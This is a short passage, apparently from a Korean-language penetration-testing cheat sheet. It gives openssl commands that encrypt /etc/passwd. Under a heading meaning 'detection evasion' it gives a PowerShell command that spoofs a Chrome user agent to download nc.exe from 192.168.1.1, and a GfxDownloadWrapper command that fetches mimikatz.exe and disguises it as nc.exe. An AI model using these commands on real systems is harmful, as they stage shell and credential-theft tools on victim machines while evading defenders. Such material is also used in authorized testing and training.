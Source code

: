 ```

### Linux File Encryption/Decryption
```openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc```<br/>
```openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd```

<br/><br/>
## 탐지 우회

### Chrome User Agent로 다운로드
```
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
Invoke-WebRequest http://192.168.1.1/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

### Transferring File - GfxDownloadWrapper
```GfxDownloadWrapper.exe "http://192.168.1.1/mimikatz.exe" "C:\Temp\nc.exe"```
